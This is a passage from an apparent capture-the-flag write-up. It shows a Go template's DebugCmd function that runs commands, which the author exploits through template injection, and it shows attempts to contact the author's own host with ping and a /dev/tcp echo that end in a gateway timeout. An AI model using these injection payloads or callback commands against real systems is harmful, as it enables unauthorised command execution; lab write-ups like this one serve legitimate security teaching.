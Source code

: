 The source is interesting, but the thing that quickly jumps out to me is the
`DebugCmd` function:

    
    
    func (u User) DebugCmd (test string) string {
      ipp := strings.Split(test, " ")
      bin := strings.Join(ipp[:1], " ")
      args := strings.Join(ipp[1:], " ")
      if len(args) > 0{
        out, _ := exec.Command(bin, args).CombinedOutput()
        return string(out)
      } else {
        out, _ := exec.Command(bin).CombinedOutput()
        return string(out)
      }
    }
    

It isn’t used elsewhere in the page, but it exists.

#### Execution

In the SSTI above, I used `{{ . }}` to print the current objects passed into
the template. I can also reference functions from the code within `{{ }}`.
[This post](https://www.calhoun.io/intro-to-templates-p3-functions/) talks
about how to reference objects (including functions) from the templating
engine using a `.function_name`. Submitting `{{ .DebugCmd "id" }}` returns
proof of execution:

![image-20210826132627098](https://0xdfimages.gitlab.io/img/image-20210826132627098.png)

### Connection Fails

I tried a bunch of things to get a connection back to my host, but all failed.
First I tried to `ping` my host with `{{ .DebugCmd "ping -c 1 10.10.14.6" }}`,
but it returned `/bin/bash: ping: command not found`. I tried giving it full
path in `/usr/bin` and others, but no luck. I switched to running `find`
commands like `find / -name ping`. `ping`, `wget`, `nc`, `curl`, were all not
on the host.

I verified that my syntax would work by searching for `bash`:

![image-20210826133041067](https://0xdfimages.gitlab.io/img/image-20210826133041067.png)

I tried to use `/dev/tcp` to contact my host with `"echo test >
/dev/tcp/10.10.14.6/443"`. It just hung the page. My thinking here is that the
site is now trying to contact me, but the firewall is blocking outbound. So
the site keeps trying until it times out. After a full minute or two:

    
    
    HTTP/1.1 504 Gateway Time-out
    Server: nginx
    Date: Thu, 26 Aug 2021 17:32:44 GMT
    Content-Type: text/html
    Content-Length: 160
    Connection: close
    